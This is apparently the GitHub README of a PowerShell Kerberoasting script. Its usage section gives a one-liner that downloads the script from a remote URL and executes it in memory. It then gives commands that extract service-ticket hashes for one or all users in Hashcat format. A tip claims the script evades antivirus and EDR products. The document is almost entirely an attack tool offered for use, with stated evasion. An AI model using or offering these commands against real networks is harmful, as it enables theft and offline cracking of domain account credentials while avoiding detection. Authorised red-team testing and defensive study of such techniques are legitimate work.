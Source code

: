 # Invoke-Kerby
PowerShell Script for Kerberoasting

<img width="150" height="150" alt="image" src="https://github.com/user-attachments/assets/f603272b-fd31-4915-81b6-67e25b019654" />

## Usage

Download and execute into memory:

````
# load into memory
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/l4rm4nd/Invoke-Kerby/refs/heads/main/Invoke-Kerby.ps1')

# kerberoast single user
Invoke-Kerby -Identity max.muster -OutputFormat Hashcat | % { $_.Hash }

# kerberoast all
Invoke-Kerby -OutputFormat Hashcat | % { $_.Hash }
````

>[!TIP]
> Undetected on AV/EDR. No AMSI bypass required. Tested against CrowdStrike.
